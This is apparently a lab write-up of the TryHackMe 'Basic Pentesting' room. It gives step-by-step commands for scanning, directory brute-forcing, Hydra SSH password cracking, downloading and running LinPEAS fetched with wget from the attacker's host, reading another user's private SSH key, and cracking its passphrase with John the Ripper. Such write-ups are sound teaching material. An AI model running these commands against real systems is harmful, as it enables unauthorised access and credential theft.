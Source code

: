 # Basic Pentesting - Try Hack Me


Target: 10.10.162.125


The first thing I did is to scan the ip address. Let us run an Nmap scan on the target 10.10.162.125
###### nmap scan
```
$ sudo nmap -sC -sV 10.10.162.125
```
There are multiple open ports but the port 22 is is what caught my eye. Port 22 or SSH is often used to login and perform operations on computers.
Result:



![src:index](basicpentesting_1.png)


Web Page Results:

![src:index](basicpentesting_20.PNG)  



I inspected the source code of the webpage to find interesting information 

Source Code:


![src:index](basicpentesting_21.PNG)


I used ffuf with small.txt file to try to bruteforce for the directories.
###### search for directories
```
$ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://10.10.159.226/FUZZ -fw 22
```

After minutes of bruteforcing I got the development directory

Fuff Results:


![src:index](basicpentesting_2.png)


Now let us take a look at the development page.

![src:index](basicpentesting_23.PNG)

dev.txt

![src:index](basicpentesting_24.PNG)

j.txt

![src:index](basicpentesting_25.PNG)

According to the note, I have found out that J has a weak credentials and that his/her password hash can be cracked easily.

I tried to gather more interesting information and used enum4linux.

###### simple enumeration using enum4linux
```
$ enum4linux -a 10.10.159.226
```
![src:index](basicpentesting_3.png)

I found 2 users: jay and kay

![src:index](basicpentesting_4.png)

Now that I know the user name, I will try to bruteforce the password of user jan using Hydra


###### bruteforcing password for user jan using hydra

```                                           
$ hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.162.125 -V
```
![src:index](basicpentesting_5.png)

After minutes of waiting, we successfully retrieved the password of user jan using the password list rockyou.txt
user:jan password:armando


![src:index](basicpentesting_6.png)

Let's login to user jan through ssh

###### login to user through ssh
```
$ ssh jan@10.10.162.125
```

###### maghhost ng server para madownload ng machine yung LinPEAS
```
$ python -m http.server 8001
```
![src:index](basicpentesting_7.png)

###### change directory to /dev/shm/ for us to be able to write
```
jan@basic2:~$ cd /dev/shm/
```

###### download LinPEAS
```
jan@basic2:/dev/shm$ wget http://10.18.69.128:8001/linpeas.sh 
```
![src:index](basicpentesting_8.png)


###### make LinPEAS executable by running the command:
```
jan@basic2:/dev/shm$ chmod +x linpeas.sh
```

###### run LinPEAS 
```
jan@basic2:/dev/shm$ ./linpeas.sh
```
![src:index](basicpentesting_10.png)

###### found possible private SSH keys 

![src:index](basicpentesting_11.png)

###### /home/kay/ .ssh/id_rsa


###### change directory to /home/kay
```
jan@basic2:/dev/shm$ cd /home/kay
```

###### list files
```
jan@basic2:/home/kay$ ls
```

###### found pass.bak
![src:index](basicpentesting_12.png)
###### list permission of the files and directories / hidden files
```
jan@basic2:/home/kay$ ls -la
```
![src:index](basicpentesting_13.png)

###### change directory to .ssh/
```
jan@basic2:/home/kay$ cd .ssh/
```

###### list files
```
jan@basic2:/home/kay/.ssh$ ls
```

###### found id_rsa


###### cat id_rsa
```
jan@basic2:/home/kay/.ssh$ cat id_rsa
```
![src:index](basicpentesting_15.png)
###### save ssh key
```
$ mousepad kay_id_rsa
```


###### run the ssh2john script, and write the results of it into a file:
```
ssh2john kay_id_rsa > kay_hash
```

###### crack ssh private key with john the ripper
```
$ john --wordlist=/usr/share/wordlists/rockyou.txt kay_hash
```
![src:index](basicpentesting_16.png)

###### chmod 
```
$ chmod 600 kay_id_rsa
```
![src:index](basicpentesting_17.png)

###### ssh to user kay using the passphrase
```
ssh -i kay_id_rsa kay@10.10.162.125
```
![src:index](basicpentesting_18.png)
###### list down files
```
kay@basic2:~$ ls
```

###### print pass.bak
```
kay@basic2:~$ cat pass.bak
```
![src:index](basicpentesting_19.png)












